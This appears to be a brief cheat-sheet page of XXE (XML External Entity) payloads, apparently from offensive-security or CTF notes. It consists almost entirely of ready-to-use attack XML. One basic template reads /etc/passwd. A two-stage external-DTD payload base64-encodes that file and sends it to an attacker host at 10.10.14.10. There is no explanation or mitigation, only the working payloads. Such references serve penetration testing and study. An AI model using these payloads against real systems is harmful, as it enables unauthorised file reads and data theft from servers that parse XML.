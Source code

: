 ```yaml
---
title: "XXE (XML External Entity)"
date: 2024-7-5
tags: ["xxe", "xml", "dtd", "web"]
---
```


---
### XXE Template

<div>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY data SYSTEM "/etc/passwd">]>
<product>
    <id>&data;</id>
    <price></price>
</product>
```

</div>

### External DTD (2 stage)

<div>

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://10.10.14.10/data?%data;'>">
```

</div>

<br>

<div>

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY % bar SYSTEM "http://10.10.14.10/evil.dtd">
        %bar;
        %eval;
]>
<product>
    <id>&exfil;</id>
    <price></price>
</product>
```

</div>

<br>